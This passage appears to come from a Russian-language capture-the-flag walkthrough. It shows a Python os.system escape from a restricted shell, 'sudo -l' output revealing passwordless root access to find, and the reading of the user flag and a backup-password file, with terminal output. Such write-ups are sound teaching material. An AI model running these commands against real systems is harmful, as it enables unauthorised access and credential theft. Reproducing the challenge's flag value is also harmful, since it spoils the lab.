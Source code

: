 >Но с помощью python можно добиться выполнения нужных команд:

```html
squiddie:~$ python
Python 2.7.15rc1 (default, Apr 15 2018, 21:51:34) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>> import os
>> os.system("sudo -l")
Matching Defaults entries for squiddie on jetty:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User squiddie may run the following commands on jetty:
    (ALL) NOPASSWD: /usr/bin/find
```

>Получаем первый флаг:

```html
squiddie:~/Desktop$ ls
To_Michael.txt  user.txt
squiddie:~/Desktop$ python
Python 2.7.15rc1 (default, Apr 15 2018, 21:51:34) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("cat user.txt")
dd69f649f3e5159ddd10b83b56b2dda2
```

>Что-то пока непонятное:

```html
>>>> os.system("cd //;cd var/www/html;cat recoverpassword.txt")
Backup password:

'&%$#"!~}|{zyxwvut210/.-,+k)(!Efedcba`_^]\[ZYXWVUTpohmlkjihg`&GFEDCBA@?>=<;:
9876543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWmrkponmlkdc
b(`_dc\"`BX|?>Z<RWVUNSRKoONGLKDh+*)('&BA:?>=<;:92Vw/43,10)Mnmlkjihgfedcba`_^
]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9UTSRQ3ONMLKJCg*)('&%$#"!~}|{zyxwvutsrq/
(-,+*)('&}|B"b~}v{ts9wputsrqj0QPONMLKJIHGFEDCBA@?>=<;:9876543210/.-,+*)('&%$
#"!~}|{zyxwvutsr0/.-,+*)(!~%|Bcba`_^]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9876
543210/.-,+*)('&B$:?>=<;:3270Tu-,+O/.n,%Ijihgfedcba`_^]\[ZYXWVUTSonmlkMibgf_
^$EaZ_^]VUy<XWPOs6543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[Z
YXWVUTSRQPONjihgfedcb[ZBX|\UZYRv9876543210/.-,+*)('&B$@?>=<5:381Uvutsrqpo-,+
k)"'&%|{Aba`_^]yxwYutsrqpi/PONMLKJIHGFEDCBA@?>=<;:9876543210/.-,+*)('&%$#"!~
}|{zyxwvutsrqponmlkjihgfedcba`_{]sxwvutslkji/PONMLKaf_^]ba`_^W{[ZYXWPOsMRQJI
mGLKJIHG@dDCB;:9]~6;:92Vwvutsrqponmlkjihgfe#"!~}|{zyxq7utsrTpong-NMLKJIHGFED
CBA@?>=<;:9876543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]sxwvuts
rqjihg-,w
```

>( ͡° ͜ʖ ͡°)
